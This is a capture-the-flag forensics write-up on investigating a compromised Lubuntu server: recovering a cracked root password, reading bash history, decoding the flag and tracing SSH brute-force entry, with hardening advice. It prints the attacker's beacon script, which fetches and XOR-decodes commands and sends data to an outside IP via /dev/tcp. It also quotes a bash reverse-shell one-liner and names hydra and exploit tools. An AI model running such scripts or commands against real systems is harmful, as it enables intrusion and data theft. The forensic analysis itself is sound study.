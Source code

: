# Challenge Name: DFIR

![date](https://img.shields.io/badge/date-24.04.2021-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![forensics category](https://img.shields.io/badge/category-Forensics-blueviolet.svg)   
![value](https://img.shields.io/badge/value-400-blue.svg)  


## Description

Our Lubuntu server has been breached! We recieved an alert about it communicating with malicious servers and we saw a SIGNIFICANT increase in CPU usage. We SSHed in and saw that changes had been made to the / directory. We need to know how this attacker got in (so we can keep him out in the future) and what he was using our server for...

uname: "victem" (ya, we kinda jinxed ourselves with that name) pw: "correct-horse-battery-staple"

Download: https://drive.google.com/file/d/16sV8pXSrG22KL4zJ9VrpZTcZAs_N9XYw/view 

## Detailed solution  

Start by importing the virtualbox machine and run it 

![image](https://user-images.githubusercontent.com/72421091/116092049-fde5d280-a694-11eb-93e7-3d1c3011ebac.png)

Let's SSH to the machine using the credentials in description ```victem / correct-horse-battery-staple``` get more confortable 

Our machine is a ```Lubuntu 18.04 LTS``` and the linux kernel version is ```4.15.0-20``` 

![image](https://user-images.githubusercontent.com/72421091/116094116-ca0bac80-a696-11eb-985f-8ee3b03d722e.png)

The description mention that that changes had been made to the / directory so let's go check it 

![image](https://user-images.githubusercontent.com/72421091/116096118-89149780-a698-11eb-9b94-39c013a822ee.png)

The file ```cluster-crack.pot``` is suspicious let's read it  

```
cat cluster-crack.pot

$6$fZ/iAgR.$FHl9m/ibTVBQ3OQ645IiLtrcxSsxdt8pTQHh7knfQ2GhD7Pbu0Dv0evXaGnnMVjV7xe5KlRprL5hWEjE6/Ruj0:toor
```

We can see a decrypted linux hash password which is ```toor``` which is a commun default root password 

The POT file is where john stores passwords that it has already cracked for display with the "--show" command  

So the attacker used john the decrypt the users hash password 

Checking the passwd file we can see the users root and victem 

![image](https://user-images.githubusercontent.com/72421091/116098680-caa64200-a69a-11eb-835c-9be03c5a1c45.png)

Let's switch to ```root``` with the password ```toor``` and check the bash history 

![image](https://user-images.githubusercontent.com/72421091/116099769-d2b2b180-a69b-11eb-9ff3-ac36623743b5.png)  

NB : the line 6 is wrong it's sould be ```wget https://gitlab.com/thehacker1/payload/-/blob/master/.payload.sh```  

![image](https://user-images.githubusercontent.com/72421091/116101630-82d4ea00-a69d-11eb-9d94-b4d6f74c5c25.png)

We can see two attacks, running a payload.sh and cracking the shadow file hashes using john and the wordlist rockyou.txt

The files has been downloaded from a gitlab repository https://gitlab.com/thehacker1/payload/-/tree/master 

![image](https://user-images.githubusercontent.com/72421091/116103519-312d5f00-a69f-11eb-997f-9c19f201bccd.png)

**.payload.sh file**

```bash
#!/bin/bash

W=$((15*60))
K=120

while true
do
	echo "sleeping for $W seconds"
	sleep $W
	rm .encrypted_csv.data
	wget https://gitlab.com/thehacker1/payload/-/raw/master/.encrypted_csv.data
	echo "downloaded file"
	F="./.encrypted_csv.data"
	hexdump -v -e '/1 "%u\n"' $F | while read B; do
		E=$((K^B))
		C=$(printf \\$(printf '%03o' $E))
		echo -n $C >> encrypted.csv
	done
	echo "decrypted newest command"
	S=$(cat encrypted.csv)
	rm encrypted.csv
	S="${S::-1}"
	D=,
	S=$S$D
	array=();
	while [[ $S ]]; do
		array+=( "${S%%"$D"*}" );
		S=${S#*"$D"};
	done;
	declare -a array
	M=${array[0]}
	I=${array[1]}
	P=${array[2]}
	M=${M##WPI}
	echo "routing message to $I:$P"
	echo "$M" > /dev/tcp/$I/$P
done
```

We can see some steps :

- Download the .encrypted_csv.data file from the gitlab repository using wget
- Decrypting the file : convert .encrypted_csv.data to decimal values, xor using K=120, converto to octal values and print the ascii charactere
- encrypted.csv : WPI{open-ports-will-be-abused},185.22.155.51,80r
- Save encrypted.csv as array : M is our flag, I the ip adresse and P the port 
- echo "$M" > /dev/tcp/$I/$P : similar to a bash reverse shell ```bash -i >& /dev/tcp/10.0.0.1/8080 0>&1```

A bash script for decryption to get the flag 

```bash
#!/bin/bash

wget https://gitlab.com/thehacker1/payload/-/raw/master/.encrypted_csv.data #Download file from the gitlab repository
echo "[+] Downloaded file"

F="./.encrypted_csv.data"
K=120

hexdump -v -e '/1 "%u\n"' $F | while read B; do   # Convert .encrypted_csv.data values to decimal one byte for each line and start a loop
        E=$((K^B))                                # xor K=120 and the decimal value from .encrypted_csv.data (1 byte line)
        C=$(printf \\$(printf '%03o' $E))         # Convert the xor output to octal and print the ascii character
        echo -n $C >> encrypted.csv
done

echo "[+] Decrypted"

S=$(cat encrypted.csv) # S --> WPI{open-ports-will-be-abused},185.22.155.51,80r
flag="${S:0:30}"
echo "[+] Flag : $flag"
```
![image](https://user-images.githubusercontent.com/72421091/116130198-79a64600-a6ba-11eb-85e8-f0364d87e288.png)


## Flag

```
WPI{open-ports-will-be-abused}
```

## How the attacker get in  

Starting by performing ports scan using nmap 

![image](https://user-images.githubusercontent.com/72421091/116132345-f89c7e00-a6bc-11eb-9a4b-6f2163f959e9.png)

We can see the port 22/TCP runinng the OpenSSH 7.6p1 which is vulnerable to a username enumeration attack https://nvd.nist.gov/vuln/detail/CVE-2018-15473  

I tried user enumeration using this exploit https://www.exploit-db.com/exploits/45233 and the metasploit module auxiliary/scanner/ssh/ssh_enumusers but no success

I tried to bruteforce ssh credentials using hydra with a default credentials list https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt 

![image](https://user-images.githubusercontent.com/72421091/116150292-b5e5a080-a6d2-11eb-9926-f09203bdc253.png)

So we can access the server using SSH as root 

### Fix

- Disable direct root ssh login
- Change the passowrds for root and victem, use a strong one and also you can use ssh keys for better security    
- Upgrade OpenSSH to latest version

Some best practices explained by liveoverflow  

https://www.youtube.com/watch?v=fKuqYQdqRIs







